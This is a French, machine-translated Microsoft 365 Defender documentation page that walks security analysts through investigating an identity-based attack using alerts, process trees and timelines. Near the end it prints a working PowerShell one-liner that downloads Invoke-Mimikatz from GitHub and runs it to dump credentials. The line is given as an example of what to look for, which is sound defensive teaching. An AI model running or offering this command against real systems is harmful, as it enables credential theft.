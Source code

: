 ```yaml
---
title: Exemple d’attaque basée sur l’identité
description: Parcourez un exemple d’analyse d’une attaque basée sur l’identité.
keywords: incidents, alertes, examen, corrélation, attaque, machines, appareils, utilisateurs, identités, identité, boîte aux lettres, e-mail, 365, microsoft, m365, réponse aux incidents, cyberattaque
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365solution-firstincident
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 2e0b237ad045b98b2bb013399f344db3f20f1919
ms.sourcegitcommit: c1eaea74c8ffce2f9f477c9469342e88e4a70c14
ms.translationtype: MT
ms.contentlocale: fr-FR
ms.lasthandoff: 07/20/2022
ms.locfileid: "66893614"
---
```

# <a name="example-of-an-identity-based-attack"></a>Exemple d’attaque basée sur l’identité

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**S’applique à :**
- Microsoft 365 Defender

Microsoft Defender pour Identity peut aider à détecter les tentatives malveillantes de compromission des identités dans votre organisation. Étant donné que Defender pour Identity s’intègre à Microsoft 365 Defender, les analystes de sécurité peuvent avoir une visibilité sur les menaces provenant de Defender pour Identity, telles que les tentatives d’élévation de privilège Netlogon suspectées.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analyse de l’attaque dans Microsoft Defender pour Identity

Microsoft 365 Defender permet aux analystes de filtrer les alertes par source de détection sous l’onglet **Alertes** de la page Incidents. Dans l’exemple suivant, la source de détection est filtrée **sur Defender pour Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtrage de la source de détection dans Microsoft Defender pour Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

La sélection de l’alerte **d’attaque par dépassement de hachage suspecte** est dirigée vers une page dans Microsoft Defender for Cloud Apps qui affiche des informations plus détaillées. Vous pouvez toujours en savoir plus sur une alerte ou une attaque en sélectionnant **En savoir plus sur ce type d’alerte** pour lire une [description des suggestions d’attaque et de](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) correction.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Alerte d’attaque de dépassement depass-the-hash suspectée" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Examen de la même attaque dans Microsoft Defender pour point de terminaison

Un analyste peut également utiliser Defender pour point de terminaison pour en savoir plus sur l’activité sur un point de terminaison. Sélectionnez l’incident dans la file d’attente des incidents, puis sélectionnez l’onglet **Alertes** . À partir de là, ils peuvent également identifier la source de détection. Une source de détection étiquetée EDR signifie Endpoint Detection and Response, qui est Defender pour point de terminaison. À partir de là, l’analyste sélectionne une alerte détectée par EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Détection et réponse des points de terminaison dans le portail Microsoft Defender pour point de terminaison" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

La page d’alerte affiche diverses informations pertinentes, telles que le nom de l’appareil concerné, le nom d’utilisateur, l’état de l’examen automatique et les détails de l’alerte. L’histoire de l’alerte représente une représentation visuelle de l’arborescence de processus. L’arborescence de processus est une représentation hiérarchique des processus parents et enfants liés à l’alerte.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Arborescence de processus d’alerte dans le Microsoft Defender pour point de terminaison" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Chaque processus peut être développé pour afficher plus de détails. Les détails qu’un analyste peut voir sont les commandes réelles qui ont été entrées dans le cadre d’un script malveillant, des adresses IP de connexion sortante et d’autres informations utiles.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Détails du processus dans le portail Microsoft Defender pour point de terminaison" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
En sélectionnant **Afficher dans la chronologie**, un analyste peut explorer encore plus loin pour déterminer l’heure exacte du compromis. 

Microsoft Defender pour point de terminaison pouvez détecter de nombreux fichiers et scripts malveillants. Toutefois, en raison de nombreuses utilisations légitimes pour les connexions sortantes, PowerShell et l’activité en ligne de commande, une activité serait considérée comme bénigne jusqu’à ce qu’elle crée un fichier ou une activité malveillant. Par conséquent, l’utilisation de la chronologie permet aux analystes de mettre l’alerte en contexte avec l’activité environnante afin de déterminer la source d’origine ou l’heure de l’attaque qui autrement est masquée par le système de fichiers commun et l’activité utilisateur. 

Pour utiliser la chronologie, un analyste commence au moment de la détection d’alerte (en rouge) et fait défiler vers le bas dans le temps pour déterminer quand l’activité d’origine qui a conduit à l’activité malveillante a réellement démarré. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Heure de début de l’analyste pour la détection des alertes" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Il est important de comprendre et de distinguer les activités courantes telles que les connexions Windows Update, le trafic d’activation de logiciels approuvés Windows, d’autres connexions courantes aux sites Microsoft, l’activité Internet tierce, l’activité Configuration Manager de point de terminaison Microsoft et d’autres activités bénignes provenant d’activités suspectes. Une façon de faire la distinction consiste à utiliser des filtres de chronologie. Il existe de nombreux filtres qui peuvent mettre en évidence une activité spécifique tout en filtrant tout ce que l’analyste ne souhaite pas afficher. 

Dans l’image ci-dessous, l’analyste a filtré pour afficher uniquement les événements réseau et traiter. Ce critère de filtre permet à l’analyste de voir les connexions réseau et les processus entourant l’événement où le Bloc-notes a établi une connexion avec une adresse IP, que nous avons également vu dans l’arborescence des processus. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Utilisation du Bloc-notes pour établir une connexion sortante malveillante" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

Dans cet événement particulier, le Bloc-notes a été utilisé pour établir une connexion sortante malveillante. Toutefois, les attaquants utilisent souvent iexplorer.exe pour établir des connexions pour télécharger une charge utile malveillante, car les processus iexplorer.exe sont généralement considérés comme une activité régulière de navigateur web.

Un autre élément à rechercher dans la chronologie serait les utilisations de PowerShell pour les connexions sortantes. L’analyste recherche les connexions PowerShell réussies avec des commandes telles qu’une `IEX (New-Object Net.Webclient)` connexion sortante à un site web hébergeant un fichier malveillant. 

Dans l’exemple suivant, PowerShell a été utilisé pour télécharger et exécuter Mimikatz à partir d’un site web :

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Un analyste peut rapidement rechercher des mots clés en tapant le mot clé dans la barre de recherche pour afficher uniquement les événements créés avec PowerShell. 

## <a name="next-step"></a>Étape suivante

Consultez le chemin d’accès à l’enquête sur le [hameçonnage](first-incident-path-phishing.md) .

## <a name="see-also"></a>Voir aussi

- [Vue d’ensemble des incidents](incidents-overview.md)
- [Gérer des incidents](manage-incidents.md)
- [Examiner des incidents](investigate-incidents.md)
